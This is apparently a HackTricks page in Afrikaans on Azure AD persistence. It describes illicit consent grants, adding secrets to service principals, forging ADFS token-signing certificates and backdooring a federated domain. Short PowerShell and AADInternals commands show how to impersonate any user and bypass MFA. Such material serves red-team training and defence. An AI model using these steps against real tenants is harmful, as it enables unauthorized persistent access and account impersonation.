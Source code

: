 # Az - Persistensie

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Onwettige Toestemmingstoekenning

Standaard kan enige gebruiker 'n toepassing in Azure AD registreer. So kan jy 'n toepassing registreer (slegs vir die teiken huur) wat hoë impak toestemmings benodig met administrateur toestemming (en dit goedkeur as jy die administrateur is) - soos om e-pos namens 'n gebruiker te stuur, rolbestuur, ens. Dit sal ons in staat stel om **phishing-aanvalle** uit te voer wat baie **vrugbaar** sal wees in geval van sukses.

Boonop kan jy ook daardie toepassing met jou gebruiker aanvaar as 'n manier om toegang daaroor te behou.

### Toepassings en Diens Prinsipale

Met voorregte van Toepassing Administrateur, GA of 'n pasgemaakte rol met microsoft.directory/applications/credentials/update toestemmings, kan ons kredensiale (geheime of sertifikaat) aan 'n bestaande toepassing voeg.

Dit is moontlik om **'n toepassing met hoë toestemmings te teiken** of **'n nuwe toepassing** met hoë toestemmings toe te voeg.

'n Interessante rol om by die toepassing te voeg, sou die **Privileged authentication administrator role** wees, aangesien dit toelaat om die **wagwoord te herstel** van Globale Administrateurs.

Hierdie tegniek laat ook toe om **MFA te omseil**.

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* Vir sertifikaat-gebaseerde outentisering

{% code overflow="wrap" %}
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
{% endcode %}

### Federasie - Token Onderteken Sertifikaat

Met **DA bevoegdhede** op on-prem AD, is dit moontlik om **nuwe Token onderteken** en **Token Decrypt sertifikate** te skep en in te voer wat 'n baie lang geldigheid het. Dit sal ons in staat stel om **in te log as enige gebruiker** wie se ImuutableID ons ken.

**Voer** die onderstaande opdrag uit as **DA op die ADFS bediener(s)** om nuwe sertifikate te skep (standaard wagwoord 'AADInternals'), voeg dit by ADFS, deaktiveer outomatiese hernuwing en herbegin die diens:
```powershell
New-AADIntADFSSelfSignedCertificates
```
Dan, werk die sertifikaatinligting by met Azure AD:
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Federasie - Betroubare Domein

Met GA-privileges op 'n huurder, is dit moontlik om 'n **nuwe domein** toe te voeg (moet geverifieer word), sy autentikasietipe na Federated te konfigureer en die domein te **vertrou op 'n spesifieke sertifikaat** (any.sts in die onderstaande opdrag) en uitgever:
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## Verwysings

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
